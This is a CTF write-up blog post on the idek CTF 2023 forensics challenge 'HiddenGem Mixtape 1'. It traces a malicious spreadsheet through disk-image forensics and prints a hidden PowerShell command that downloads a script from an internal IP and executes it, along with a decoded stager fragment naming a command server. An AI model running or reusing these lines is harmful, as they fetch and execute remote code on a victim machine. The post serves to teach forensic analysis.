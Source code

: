 +++
author = "dree"
title = "idek CTF 2023"
date = "2023-01-24"
tags = [
    "OSINT", "Forensics"
]
+++

*Was in 2023, not 2022 since event delayed. Great CTF with a lot of challenges from the team **idek** ¯\_(ツ)_/¯. My team WolvSec came in **17th** out of **846** teams. I will be going over my 2 Forensics solves and 5 OSINT. Currently just Forensics 1, I plan to add the rest later!


<!--more-->

---

# HiddenGem Mixtape 1: Initial Access
Authors: `Bquanman`  
Points: **478**  
Solves: **47**

### Challenge Description:
We're pretty sure there's been a hack into our system. The incident is suspected to be caused by an employee opening a document file received via email even though he deleted it shortly afterwards. We managed to do a logical acquisition of data from his hard drive. However, when we open the document file, it looks empty, can you analyze what it contains?


### Approach

We are given a `.vhdx` file, which contains a Windows Image. To open in Autopsy, I double clicked the file on my Windows machine and imported that disk image. The first thing that struck my eye when doing this was the email saved onto the machine.

{{< img src="autopsyemail.png" >}}

The email HTML gives us the password `Privacy4411@2023!!!`. This can be used to open the attachment in the email, which gives us a file `Policy.xlsx`. In this file my teammates and I tried to find anything meaningful, even performing stego on the image of Tommy Xiaomi but with no success. I noticed a weird line on page 3, which was hidden, but it did not show correct output on google sheets since the file was converted. However, `doubledelete` was able to view the line
```
CMD.EXE /c powershell.exe -w hidden $e=(New-Object System.Net.WebClient).DownloadString(\"http://172.21.20.96/windowsupdate.ps1\");IEX $e
```
This can also be viewed on any.run when importing the file

{{< img src="anyrunoutput.png" >}}

This malicious command seems to have downloaded a file called `windowsupdate.ps1`. I searched this string in Autopsy, and found a command where a very long base64 string was downloaded from the Powershell logs. Decoding the b64 we an object that starts with:
```
(New-OBJECT MAnAGeMent.AUtOmaTiON.PsCreDEntIAL ' ', ('76492d111..)
```

We can run this into a powershell emulator to get the following output:

```
$bwqvRnHz99 = (104,116,116,112,115,58,47,47,112,97,115,116,101);
$bwqvRnHz99 += (98,105,110,46,99,111,109,47,104,86,67,69,85,75,49,66);
$flag = [System.Text.Encoding]::ASCII.GetString($bwqvRnHz99);
$s='172.21.20.96:8080';$i='eef8efac-321d465e-e9d053a7';
$p='http://';$v=Invoke-Web...
```

And there we see a `$flag` variable, signaling this is likely our flag. Running just that and printing we get a pastebin:

{{< img src="tiooutput.png" >}}

And we get the flag! As well as the resource: https://sensepost.com/blog/2016/powershell-c-sharp-and-dde-the-power-within

flag: `sdctf{morning_noon_and_night_I_meme}`

